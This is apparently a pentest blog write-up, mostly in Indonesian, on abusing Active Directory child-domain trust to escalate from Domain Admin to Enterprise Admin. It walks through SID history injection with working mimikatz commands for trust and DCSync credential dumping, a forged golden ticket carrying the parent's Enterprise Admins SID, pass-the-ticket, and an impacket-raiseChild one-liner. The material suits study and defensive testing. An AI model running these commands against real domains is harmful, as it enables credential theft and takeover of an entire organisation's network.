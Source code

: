 ```yaml
---
title: "[Child Domain Trusts] Privilege Escalation Domain Admin to Enterprise Admin (SID Hijacking)"
author: "novran"
date: 2024-11-20 00:00:00 +0700
categories: [Active Directory Privilege Escalation]
tags: [Active Directory Privilege Escalation]
mermaid: true
image:
  path: /images/2024-11-20-abusing-child-domain-trusts-to-escalate-domain-admin-to-enterprise-admin-banner.png
  alt: Abusing Child Domain Trusts
---
```


SID Hijacking adalah teknik di mana penyerang memanfaatkan SID dari objek pengguna atau grup untuk mendapatkan hak istimewa yang lebih tinggi. Dengan ini penyerang memalsukan SID grup "Enterprise Admins" untuk meningkatkan hak istimewanya.

Konsep yang perlu dipahami:
- Dalam jaringan Active Directory, `Trust` adalah hubungan kepercayaan antar domain, seperti antara Parent Domain dan Child Domain.
- Dalam Active Directory, Group "Enterprise Admins" memiliki hak tertinggi (bahkan di atasnya Domain Admins).
- Security Identifier (SID) adalah identitas yang digunakan untuk mengelola hak akses dan izin pengguna atau grup.

**Persyaratan**

Penyerang **membutuhkan akses Domain Admin di Child Domain** untuk memulai eksploitasi. Kemudian penyerang memanipulasi akun pengguna atau grup di Child Domain, dengan cara menyisipkan SID grup "Enterprise Admins".

> Dari sini Parent Domain akan kita sebut sebagai `DC01` dan Child Domain akan kita sebut sebagai `DC02`.
> - **DC01** - `domain.local`
> - **DC02** - `child.domain.local`

----------

**Enumeration via Child Domain**

```powershell
get-adtrust -filter *
```

![Check ADTrust](/images/2024-11-20-abusing-child-domain-trusts-to-escalate-domain-admin-to-enterprise-admin-adtrust.png)

## Manual Exploitation (Local)

> To execute all of this, we need execute through **RDP!**

### 1. Run mimikatz.exe from DC02

Ekstrak informasi hubungan trust antar domain dan kredensialnya.

```
privilege::debug
lsadump::trust
lsadump::dcsync /all /csv
```

![Mimikatz LSADUMP](/images/2024-11-20-abusing-child-domain-trusts-to-escalate-domain-admin-to-enterprise-admin-mimikatz-gatherinfo.png)

Manipulasi tiket (Golden Ticket).

```
kerberos::golden /user:Administrator /domain:<CHILD.DOMAIN.LOCAL> /sid:<CHILD_DOMAIN_SID> /krbtgt:<KRBTGT_HASH> /sids:<PARENT_DOMAIN_SID>-519
```

![Golden Ticket](/images/2024-11-20-abusing-child-domain-trusts-to-escalate-domain-admin-to-enterprise-admin-mimikatz-golden-ticket.png)

> Tambahkan `-519` pada akhiran `/sids:` menjadi `<PARENT_DOMAIN_SID>-519`

Pass the Ticket.

```
kerberos::ptt ticket.kirbi
```

![Pass the Ticket](/images/2024-11-20-abusing-child-domain-trusts-to-escalate-domain-admin-to-enterprise-admin-mimikatz-pass-the-ticket.png)

### 2. Enter PowerShell Session to DC01

Setelah berhasil mengeksekusi `Pass the Ticket`, Kita dapat memasuki sesi PowerShell DC01 melalui DC02 menggunakan Command di bawah ini.

```powershell
Enter-PSSession DC01
```

![Enter PowerShell Session](/images/2024-11-20-abusing-child-domain-trusts-to-escalate-domain-admin-to-enterprise-admin-pssession.png)

## Auto Exploitation (Remote)

```bash
impacket-raiseChild -target-exec <DOMAIN.LOCAL> -hashes :<DC02_ADMINISTRATOR_HASHES> '<CHILD.DOMAIN.LOCAL>/Administrator' -k
```
